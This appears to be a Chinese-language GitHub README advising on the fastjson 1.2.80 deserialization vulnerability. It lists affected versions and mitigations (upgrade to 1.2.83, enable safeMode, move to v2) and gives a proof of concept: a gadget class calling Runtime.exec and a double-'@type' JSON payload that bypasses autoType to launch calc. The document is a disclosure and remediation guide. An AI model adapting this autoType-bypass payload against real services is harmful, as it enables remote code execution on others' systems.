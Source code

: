 # fastjson 1.2.80版本反序列化漏洞：POC代码及规避方案（20220523）



## 1. 漏洞描述

fastjson已使用黑白名单用于防御反序列化漏洞，经研究该利用在特定条件下可绕过默认autoType关闭限制，攻击远程服务器，风险影响较大。建议fastjson用户尽快采取安全措施保障系统安全。



## 2. 影响版本

1.2.80及以下版本，即 <= 1.2.80。



## 3. 规避方案（以下任选一种）

### 3.1  升级到最新版本1.2.83

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.83</version>
</dependency>
```



### 3.2 开启safeMode

参考：https://github.com/alibaba/fastjson/wiki/fastjson_safemode



### 3.2.1 java代码中设置

```java
ParserConfig.getGlobalInstance().setSafeMode(true);
```





### 3.2.2 JVM参数中设置

```shell
-Dfastjson.parser.safeMode=true
```

![jvm参数设置](./pics/jvm_poc20220523.png)



### 3.2.3 配置文件设置

```properties
# fastjson.properties 
fastjson.parser.safeMode=true
```

![fastjson.properties 设置](./pics/properties_poc20220523.png)



## 3.3 使用fastjson v2版本，与v1版本不兼容



## 4. POC代码



poc类（代码中需要有该类）

```java
package com.example.fastjson.poc20220523;

import java.io.IOException;

public class Poc20220523 extends Exception {
    public void setName(String str) {
        try {
            Runtime.getRuntime().exec(str);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```



攻击代码：

主要是构造json串：

```json
{
	"@type": "java.lang.Exception",
	"@type": "com.example.fastjson.poc20220523.Poc20220523",
	"name": "calc"
}
```

java代码解析：

```java
    public static void main(String[] args) {
        String json = "{\"@type\":\"java.lang.Exception\",\"@type\":\"com.example.fastjson.poc20220523.Poc20220523\",\"name\":\"calc\"}";
        JSON.parse(json);
    }
```



效果截图：

![效果截图：](./pics/poc_calc_poc20220523.png)







## 5. 代码地址：

https://github.com/YoungBear/FastjsonPoc
